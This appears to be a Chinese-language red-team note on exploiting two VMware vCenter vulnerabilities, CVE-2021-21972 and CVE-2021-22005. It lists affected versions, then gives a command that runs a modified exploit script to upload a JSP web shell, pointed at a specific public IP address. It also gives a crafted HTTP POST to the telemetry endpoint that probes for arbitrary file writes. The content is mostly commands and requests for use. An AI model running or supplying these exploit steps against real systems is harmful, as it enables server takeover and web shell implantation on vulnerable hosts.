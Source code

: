 # 0x01 CVE-2021-21972

## 概述

影响版本

VMware vCenter Server 7.0系列 < 7.0.U1c

VMware vCenter Server 6.7系列 < 6.7.U3l

VMware vCenter Server 6.5系列 < 6.5 U3n

VMware ESXi 7.0系列 < ESXi70U1c-17325551

VMware ESXi 6.7系列 < ESXi670-202102401-SG

VMware ESXi 6.5系列 < ESXi650-202102101-SG

## 复现

对  https://github.com/NS-Sp4ce/CVE-2021-21972/tree/main 小改 [脚本](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/CVE-2021-21972.py ':ignore')

上传文件的绝对路径  /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/{REPLACE_RANDOM_ID_HERE}/0/h5ngc.war/resources/{shellname}

加载本地 shell 文件

```
python3.8 CVE-2021-21972.py -u https://220.248.47.158:9443 -shell {local shell.jsp}
```

# 0x02 CVE-2021-22005

## 概述

影响版本

VMware vCenter Server 7.0

VMware vCenter Server 6.7 Running On Virtual Appliance

VMware Cloud Foundation (vCenter Server) 4.x

VMware Cloud Foundation (vCenter Server) 3.x

## AsyncTelemetryController复现 写定时任务

https://xz.aliyun.com/t/10524#toc-3

`_c 和 _i`默认是没有的，来控制 /var/log/vmware/analytics/prod 下的文件，可以随便写

返回 201 ，漏洞存在

```http
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 172.16.8.111
Content-Length: 0
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum


```
